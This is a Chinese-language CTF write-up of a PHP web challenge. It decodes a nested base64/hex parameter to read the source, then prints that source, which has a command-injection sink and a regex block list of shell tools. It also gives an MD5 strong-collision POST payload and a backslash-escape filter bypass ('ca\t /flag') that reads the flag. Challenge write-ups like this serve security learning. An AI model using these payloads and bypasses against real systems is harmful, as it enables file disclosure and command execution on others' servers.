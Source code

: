 ![[Pasted image 20221118110609.png]]

---
首页长这样
![[Pasted image 20221118110637.png]]

自动跳转到了这个url
```php
/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

---
`img`参数的值可能经过了`base64`编码
![[Pasted image 20221118112321.png]]
![[Pasted image 20221118112331.png]]
似乎还是套娃编码

---
首页提示`md5 is funny ~`，就这么被带偏了，以为最后这串是md5，结果想解密提示格式都不对，绕了好久才发现这原来是个简单的16进制编码
![[Pasted image 20221118112610.png]]

---
搞懂了`img`参数的编码，尝试逆用这一点获取`index.php`的文件内容
```php
/index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

![[Pasted image 20221118112846.png]]
```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```

---
ctf3.jpeg（~~充满恶意~~嘲讽拉满）
![[Pasted image 20221118113435.png]]

---
![[Pasted image 20221118190742.png]]
如上，由于对`POST`参数进行了向`string`类型的强制类型转换，而`php`默认行为并非对数组及其各个元素进行向字符串的转换，而是直接返回`'Array'`，因此第一个比较的结果便为假，削减了利用数组绕过`md5`的可行性

这里的`md5`需要通过强碰撞绕过
~~在网上找现成的强碰撞`payload`找了半天呜呜呜~~

```php
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

这里还踩了一个坑，就是`POST`要加一个`Content-Type`头，并将值设为`application/x-www-form-urlencoded`，告诉服务器这段`POST`数据已经`url`编码过了

---
然后是`cmd`参数的构造，这个题的绕过还是比较氵的
```php
cmd=ca\t /flag
```
原理大致就是，对于`preg_match`来说，`\t`被转义成了横向制表符，因而没有被过滤；而对于`sh`来说，`\t`被解析为`t`，因此`payload`依然被作为`cat /flag`执行
#Web #md5 #PHP #绕过 #shell #编码 